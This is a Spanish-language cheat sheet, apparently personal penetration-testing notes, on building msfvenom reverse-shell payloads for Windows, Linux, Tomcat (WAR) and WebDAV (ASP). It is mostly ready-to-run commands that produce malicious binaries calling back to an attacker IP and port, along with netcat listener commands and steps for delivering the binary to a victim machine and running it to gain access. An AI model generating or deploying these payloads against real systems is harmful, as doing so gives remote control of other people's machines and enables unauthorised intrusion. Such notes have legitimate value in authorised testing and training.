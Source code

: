 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

### Windows Meterpreter

* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

* Nos ponemos en escucha por Netcat:
```bash 
❯ rlwrap nc -nlvp 443
```
* Ejecutamos el binario que subimos a Windows y ganamos acceso

### Linux Meterpreter

```python 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

* Nos ponemos en escucha por Netcat:
```bash 
❯ nc -nlvp 443
```
* Ejecutamos el binario que subimos a Linux y ganamos acceso

## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## WebDAV

```bash 
# Al payload le llamaremos shell.asp
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=1234 -f asp > shell.asp
	# p = payload 
	# f = formato
```